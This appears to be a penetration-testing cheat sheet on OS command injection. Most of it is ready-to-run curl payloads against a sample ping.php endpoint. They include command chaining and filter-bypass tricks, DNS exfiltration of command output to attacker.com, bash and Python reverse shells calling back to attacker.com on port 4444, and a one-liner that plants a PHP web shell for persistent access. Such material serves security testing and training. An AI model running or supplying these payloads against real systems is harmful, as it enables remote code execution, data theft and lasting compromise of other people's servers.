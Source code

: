 ## Command Injection Testing

### **OS Command Injection Detection and Exploitation**

**What command injection is:** Vulnerabilities that allow execution of arbitrary operating system commands through web application input fields.

**Why command injection is critical:** Direct path to remote code execution and system compromise. Common in web applications that interact with system commands.

```bash
# Basic command injection testing
curl -X POST -d "ip=127.0.0.1; whoami" http://target.com/ping.php
curl -X POST -d "ip=127.0.0.1 && whoami" http://target.com/ping.php
curl -X POST -d "ip=127.0.0.1 | whoami" http://target.com/ping.php
curl -X POST -d "ip=127.0.0.1 || whoami" http://target.com/ping.php
# Different command separators
# Tests for command chaining

# Command injection with output redirection
curl -X POST -d "ip=127.0.0.1; whoami > /tmp/output.txt" http://target.com/ping.php
# Redirects output to file
# Useful when direct output isn't displayed

# Blind command injection with time delays
curl -X POST -d "ip=127.0.0.1; sleep 10" http://target.com/ping.php
# Time-based detection
# Measures response time for confirmation

# Blind command injection with DNS queries
curl -X POST -d "ip=127.0.0.1; nslookup \$(whoami).attacker.com" http://target.com/ping.php
# Exfiltrates command output via DNS
# Useful for blind command injection

# Command injection with special characters
curl -X POST -d "ip=127.0.0.1\`whoami\`" http://target.com/ping.php        # Backticks
curl -X POST -d "ip=127.0.0.1\$(whoami)" http://target.com/ping.php         # Command substitution
curl -X POST -d "ip=127.0.0.1%26%26whoami" http://target.com/ping.php       # URL encoded &&

# Filter bypass techniques
curl -X POST -d "ip=127.0.0.1;w'h'o'a'm'i" http://target.com/ping.php      # Quote separation
curl -X POST -d "ip=127.0.0.1;who\ami" http://target.com/ping.php           # Backslash separation
curl -X POST -d "ip=127.0.0.1;\$IFS\$9whoami" http://target.com/ping.php    # IFS (Internal Field Separator)

# Reverse shell via command injection
curl -X POST -d "ip=127.0.0.1; bash -i >& /dev/tcp/attacker.com/4444 0>&1" http://target.com/ping.php
# Bash reverse shell
# Establishes connection back to attacker

curl -X POST -d "ip=127.0.0.1; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"attacker.com\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'" http://target.com/ping.php
# Python reverse shell
# Alternative to bash shell

# File write via command injection
curl -X POST -d "ip=127.0.0.1; echo '<?php system(\$_GET[\"cmd\"]); ?>' > /var/www/html/shell.php" http://target.com/ping.php
# Writes web shell to server
# Persistent access via web interface
```
